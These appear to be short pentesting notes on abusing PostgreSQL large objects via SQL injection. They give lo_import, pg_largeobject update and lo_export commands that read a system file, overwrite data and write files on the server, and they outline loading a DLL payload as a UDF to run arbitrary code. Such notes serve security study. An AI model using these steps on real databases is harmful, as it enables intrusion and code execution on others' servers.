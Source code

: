 https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/big-binary-files-upload-postgresql

# Decription
## What is Large object?
 PostgreSQL exposes a structure called large object, which is used for storing data that would be difficult to handle in its entire

The amount of data per page is defined to be LOBLKSIZE (which is currently BLCKSZ/4, or typically 2 kB).



## What is LOID?
The loid value is an integral value to our entire plan as we need to reference it when we are exporting large objects
![](https://i.imgur.com/JpKYxVL.png)




## What is pg_largeobject?

the large objects are stored in a table called pg_largeobject.

---

# Exploit goal
	Create a large object that will hold our binary payload (our custom DLL file we created in the previous section)
	Export that large object to the remote server file system
	Create a UDF that will use the exported DLL as source
	Trigger the UDF and execute arbitrary code

---
# Syntax


```
select lo_import('C:\\Windows\\win.ini');
\lo_list
```


 lo_import function also allows us to set the loid field to any arbitrary value of our choice while creating a large object
```

select lo_import('C:\\Windows\\win.ini', 1337);

```

View columns in pg_largeobject;
```
select loid, pageno from pg_largeobject;

select loid, pageno, encode(data, 'escape') from pg_largeobject;

```


```
update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0;

select loid, pageno, encode(data, 'escape') from pg_largeobject;

select lo_export(1337, 'C:\\new_win.ini');
```

Unlink after done.
```
\lo_unlink 1337
\lo_list


```

